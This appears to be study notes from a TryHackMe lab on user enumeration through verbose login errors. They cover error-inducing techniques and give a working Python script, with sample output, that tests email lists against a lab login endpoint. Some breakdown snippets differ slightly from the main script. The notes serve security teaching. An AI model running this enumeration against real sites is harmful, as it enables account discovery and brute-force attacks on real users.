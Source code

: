 Verbose errors can turn into a goldmine of information, providing insights such as:
- **Internal Paths**: Like a map leading to hidden treasure, these reveal the file paths and directory structures of the application server which might contain configuration files or secret keys that aren't visible to a normal user.
- **Database Details**: Offering a sneak peek into the database, these errors might spill secrets like table names and column details.
- **User Information**: Sometimes, these errors can even hint at usernames or other personal data, providing clues that are crucial for further investigation.

## Inducing Verbose Errors
Attackers induce verbose errors as a way to force the application to reveal its secrets. Below are some common techniques used to provoke these errors:

1. **Invalid Login Attempts**: This is like knocking on every door to see which one will open. By intentionally entering incorrect usernames or passwords, attackers can trigger error messages that help distinguish between valid and invalid usernames. For example, entering a username that doesn’t exist might trigger a different error message than entering one that does, revealing which usernames are active.
2. **SQL Injection**: This technique involves slipping malicious SQL commands into entry fields, hoping the system will stumble and reveal information about its database structure. For example, placing a single quote ( `'`) in a login field might cause the database to throw an error, inadvertently exposing details about its schema.
3. **File Inclusion/Path Traversal**: By manipulating file paths, attackers can attempt to access restricted files, coaxing the system into errors that reveal internal paths. For example, using directory traversal sequences like `../../` could lead to errors that disclose restricted file paths.
4. **Form Manipulation**: Tweaking form fields or parameters can trick the application into displaying errors that disclose backend logic or sensitive user information. For example, altering hidden form fields to trigger validation errors might reveal insights into the expected data format or structure.
5. **Application Fuzzing**: Sending unexpected inputs to various parts of the application to see how it reacts can help identify weak points. For example, tools like Burp Suite Intruder are used to automate the process, bombarding the application with varied payloads to see which ones provoke informative errors.

## The Role of Enumeration and Brute Forcing
When it comes to breaching authentication, enumeration and brute forcing often go hand in hand:
- **User Enumeration**: Discovering valid usernames sets the stage, reducing the guesswork in subsequent brute-force attacks.
- **Exploiting Verbose Errors**: The insights gained from these errors can illuminate aspects like password policies and account lockout mechanisms, paving the way for more effective brute-force strategies.

## Enumeration in Authentication Forms
In this HackerOne [report](https://hackerone.com/reports/1166054), the attacker was able to enumerate users using the website's Forget Password function. Similarly, we can also enumerate emails in login forms. For example, navigate to [http://enum.thm/labs/verbose_login/](http://enum.thm/labs/verbose_login/)[](http://enum.thm/labs/verbose_login/) and put any email address in the Email input field.

When you input an invalid email, the website will respond with "Email does not exist." indicating that the email has not been registered yet.
	![](Pasted%20image%2020241126182137.png)
However, if the email is already registered, the website will respond with an "Invalid password" error message, indicating that the email exists in the database but the password is incorrect.
	![](Pasted%20image%2020241126182149.png)

## Automation
Below is a Python script that will check for valid emails in the target web app. 
```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

We can use a common list of emails from this [repository](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt).
	![](Pasted%20image%2020241126182857.png)
Once you've downloaded the payload list, use the script on the AttackBox or your own machine to check for valid email addresses.
```shell-session
user@tryhackme $ python3 script.py usernames_gmail.com.txt
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[INVALID] xxxxxx@gmail.com
[VALID] xxxxxx@gmail.com
```

### Script breakdown
**Imports**:
- **requests**: A Python library for making HTTP requests. This is used to interact with the web server by sending POST requests to the target endpoint.
    ```python
    import requests
    ```

**Setup**:
- **url**: The script targets the endpoint handling the login functionality of the application.
    ```python
    url = 'http://enum.thm/labs/verbose_login/functions.php'
    ```
    
- **headers**: A collection of HTTP headers is defined to mimic a typical browser request, ensuring the requests appear legitimate.
    ```python
    headers = {
          'Host': 'enum.thm',
          'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
          'Accept': 'application/json, text/javascript, */*; q=0.01',
          'Accept-Language': 'en-US,en;q=0.5',
          'Accept-Encoding': 'gzip, deflate',
          'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
          'X-Requested-With': 'XMLHttpRequest',
          'Origin': 'http://enum.thm',
          'Connection': 'close',
          'Referer': 'http://enum.thm/labs/verbose_login/',
      }
    ```

**Variables Initialization**:
- **valid_emails**: An array stores email addresses confirmed to be valid.
    ```python
    valid_emails = []
    ```
    
- **invalid_error**: A string contains the specific error message used to identify invalid emails.
    ```python
    invalid_error = 'Email does not exist'
    ```

**Main Loop**:
- The script reads email addresses from a provided file and checks each for validity using the `check_email` function.
    ```python
    for email in email_list:
        check_email(email)
    ```

**Crafting and Sending HTTP Requests**:
- For each email, the script constructs a data dictionary that includes the email address, a placeholder password, and a command to execute the 'login' function.
    ```python
    data = {'username': email, 'password': 'password', 'action': 'login'}
    response = requests.post(url, headers=headers, data=data)
    ```

**Response Handling**:
- The response from the server is processed to check if the provided email exists, based on the presence of the specific error message in the JSON data.
    ```python
    if invalid_error in response.text:
        print(f"{email} is invalid.")
    else:
        print(f"{email} is valid.")
        valid_emails.append(email)
    ```

**Character Verification**:
- Emails confirmed to exist are added to the `valid_emails` list, with each email's validity logged to the console.
    ```python
    for email in valid_emails:
        print(f"Valid email found: {email}")
    ```


